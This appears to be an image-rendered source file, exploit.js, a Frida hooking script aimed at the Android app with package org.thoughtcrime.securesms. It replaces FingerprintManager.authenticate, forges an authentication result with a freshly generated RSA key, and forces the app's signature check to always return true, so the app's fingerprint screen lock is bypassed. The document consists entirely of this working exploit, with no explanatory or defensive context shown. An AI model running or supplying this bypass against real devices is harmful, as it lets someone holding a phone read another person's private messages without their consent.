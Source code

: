 ```js
// exploit.js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(
    crypto, null, 0
);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const KeyPairGenerator = Java.use(
        'java.security.KeyPairGenerator'
    );
    const Signature = Java.use(
        'java.security.Signature'
    );
    const BiometricSecretProvider = Java.use(
        'org.thoughtcrime.securesms.crypto.BiometricSecretProvider'
    );
    const AuthenticationResult = Java.use(
        'android.hardware.fingerprint.FingerprintManager$AuthenticationResult'
    );
    const FingerprintManager  = Java.use(
        'android.hardware.fingerprint.FingerprintManager'
    );
    const CryptoObject = Java.use(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject'
    );

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject',
        'android.os.CancellationSignal',
        'int',
        'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback',
        'android.os.Handler'
    );

    fingerprintManager_authenticate.implementation = (
        crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");

        // Create Certificate
        var keyGenerator = KeyPairGenerator.getInstance("RSA");
        keyGenerator.initialize(2048);
        var signatureKey = keyGenerator.generateKeyPair();
        var signature = Signature.getInstance("MD5withRSA");
        signature.initSign(signatureKey.getPrivate());
        var crypto = CryptoObject.$new(signature);

        // Create a valid authenticationResult
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);

        // Bypass Validations
        BiometricSecretProvider.verifySignature.implementation = (data, signedData) => {
            return true;
        }

        // Success
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```